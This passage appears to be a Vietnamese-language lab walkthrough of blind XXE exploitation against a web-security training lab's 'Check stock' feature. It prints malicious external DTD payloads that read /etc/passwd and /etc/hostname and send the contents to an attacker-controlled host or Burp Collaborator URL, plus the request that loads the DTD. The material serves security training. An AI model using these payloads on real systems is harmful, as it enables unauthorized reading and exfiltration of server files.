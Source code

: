 Sau khi send request thì chúng ta poll data về client.

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_outofband_param_poll.png?raw=true)

Và chúng ta đã hoàn thành bài lab

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_outofband_param_solve.png?raw=true)



### Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD
```
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.
```

Bài lab mô tả răng lỗ hổng này sẽ có phân tích input và sẽ không hiển thị kết quả, điều này làm rõ đặc tính của blind vuln.


Truy cập bài lab chúng ta thấy 1 trang web bán hàng với chức năng check stock như đã biết trước , tuy nhiên để thực hiện được exfiltrate data đối với XXE thì chúng ta cần  maliciuos DTD, cụ thể hơn trong bài này chúng ta sẽ tạo 1 malicious DTD bằng exploit server. Dựa trên các tiêu chí để tạo ra 1 malicious DTD chúng ta tạo được payload như sau : 

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_malicious_request.png?raw=true)

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

==> 

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://8luiimejfgly1q6a5g8ardcwlnrdf2.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
Đầu tiên chúng ta thêm đuôi dtd vào tên file để file trở thành đúng định dạng.

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_malicious_server1.png?raw=true)

Sau đó sent payload vào exploit server:

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_malicious_server2.png?raw=true)



Vậy là chúng ta đã chuẩn bị xong 1 malicious DTD, tiếp theo tới việc dùng nó để extract data sáng client của chúng ta :vv 
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>

==>


<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac541f241fc9ab3380d418b3013f00d0.web-security-academy.net/exploit.dtd"> %xxe;]>

```
![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_malicious_request2.png?raw=true)
